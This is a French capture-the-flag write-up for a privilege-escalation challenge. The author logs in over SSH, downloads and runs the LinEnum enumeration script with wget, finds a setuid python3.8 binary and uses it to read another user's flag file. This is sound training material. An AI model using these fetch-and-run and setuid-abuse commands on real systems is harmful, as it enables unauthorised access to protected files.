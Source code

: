 # To B, or ! to B - 128 pts

Énoncé :

> Votre client vous remercie pour votre  travail et vous assure qu'il a fait les modifications nécessaires pour  améliorer la sécurité de son serveur applicatif. 
>  Prouvez-lui que ce n'est toujours pas suffisant.
>
>
>  === Connexion SSH ===
>  Login : `padawan`
>  Mdp :  `padawan`
>  Serveur :` toBOrNot2B.phack.fr`
>
>  Artiste : `@Eagleslam`

On se connecte en SSH à la mahine :

```
 Bienvenue !

 Le flag se trouve dans /home/master/flag.txt
 Malheureusement, tu n'as pas les droits de le lire.

 Trouves un moyen d'y accéder par toi même.

 Bonne chance...
```

Un nouveau message nous attend dans notre home :

```
Cher Padawan,

C'est encore moi.
Tu as pu lire mes fichiers personnels. Tu deviens de plus en plus fort.

J'ai modifié la configuration du serveur pour éviter cela.

A plus tard,
Ton Master
```

On essaye de voir la configuration sudo :

```
$ sudo -l
-bash: sudo: command not found
```

Comme ça c'est réglé...

N'ayant pas d'idées (et n'ayant pas vu le "suid" dans les tags du challenge) je décide de faire mon bourrin. Je vais utiliser [LinEnum](https://github.com/rebootuser/LinEnum) :

```
$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Connecting to raw.githubusercontent.com (185.199.111.133:443)
saving to 'LinEnum.sh'
LinEnum.sh           100% |******************************************************************************************************************************************************| 46631  0:00:00 ETA
'LinEnum.sh' saved
$ chmod +x LinEnum.sh 
$ ./LinEnum.sh
```

Voici un extrait du rapport :

```
[-] SUID files:
-rwsr-xr-x    1 master   root         14048 Mar 15 12:52 /usr/bin/python3.8
```

Python a le bit Setuid ! Cela signifie que l'on peut l'exécuter en tant que `master` :

```
$ /usr/bin/python3.8 -c "print(open('/home/master/flag.txt').read())"
PHACK{U_4r3_hiM_bu7_h3's_n07_U}
```

